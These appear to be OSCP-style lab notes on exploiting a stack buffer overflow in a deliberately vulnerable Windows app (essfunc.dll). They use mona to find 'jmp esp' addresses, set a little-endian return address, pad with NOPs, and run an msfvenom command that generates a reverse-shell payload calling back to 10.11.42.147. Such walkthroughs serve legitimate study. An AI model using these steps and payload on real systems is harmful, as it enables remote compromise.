 Find a good module

```
!mona modules
```

```
 Address=0BADF00D
 Message= 0x62500000 | 0x62508000 | 0x00008000 | False  | False   | False |  False   | False  | -1.0- [essfunc.dll] (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)

```

Manually choose the cmd

use /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb  to convert assembly to hex code
the result

```
00000000  FFE4              jmp esp
```

```
!mona find -s \xff\xe4 -m essfunc.dll
```

Use mona 

```
!mona jmp -r esp -cpb \x00\x07\x08\x2E\x2F\xA0\xA1"
```

the result will be like this in the "Log Data" windows

```
625011AF     0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
625011BB     0x625011bb : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
625011C7     0x625011c7 : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
625011D3     0x625011d3 : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
625011DF     0x625011df : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
625011EB     0x625011eb : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
625011F7     0x625011f7 : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
62501203     0x62501203 : jmp esp | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
62501205     0x62501205 : jmp esp | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
0BADF00D       Found a total of 9 pointers

```

choose one address and update the value of retn in the script to the address written backwards (Little endian system)

 the result `\x62\x50\x11\xaf`
 the value: `\xaf\x11\x50\x62`


generate the payloade

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.42.147 LPORT=443 EXITFUNC=thread -b "\x00\x07\x08\x2E\x2F\xA0\xA1" -f c
```

don't forget to uppend some nops, so the payload can unpack itself

```
padding = "\x90" * 16
```